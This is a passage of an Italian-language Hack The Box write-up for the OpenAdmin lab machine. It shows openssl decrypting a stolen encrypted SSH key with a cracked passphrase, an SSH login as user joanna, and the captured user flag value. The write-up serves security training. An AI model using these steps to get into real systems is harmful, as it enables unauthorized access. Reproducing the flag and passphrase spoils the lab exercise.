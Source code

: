 abbiamo la nostra passphrase

utilizziamo [Openssl](Openssl.md) per convertire la chiave id_rsa_enc in un chiave id_rsa_decrypt utilizzando la passphrase `bloodninjas`

```bash
┌──(root㉿kali)-[/home/kali/htb/openadmin]
└─# openssl rsa -in id_rsa_enc -out id_rsa_decrypt
Enter pass phrase for id_rsa_enc:
writing RSA key
```

e finalmente ci possiamo collegare in ssh come utente `joanna` e prenderci la nostra user flag

```bash
┌──(root㉿kali)-[/home/kali/htb/openadmin]
└─# openssl rsa -in id_rsa_enc -out id_rsa_decrypt
Enter pass phrase for id_rsa_enc:
writing RSA key

┌──(root㉿kali)-[/home/kali/htb/openadmin]
└─# ssh -i id_rsa_decrypt joanna@10.10.10.171
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Sep 30 20:04:19 UTC 2023

  System load:  0.08              Processes:             172
  Usage of /:   30.9% of 7.81GB   Users logged in:       1
  Memory usage: 9%                IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

39 packages can be updated.
11 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Jul 27 06:12:07 2021 from 10.10.14.15
joanna@openadmin:~$ls
user.txt
joanna@openadmin:~$ cat user.txt
0a990b339b6e2c3761325a1085d0117f
joanna@openadmin:~$
```
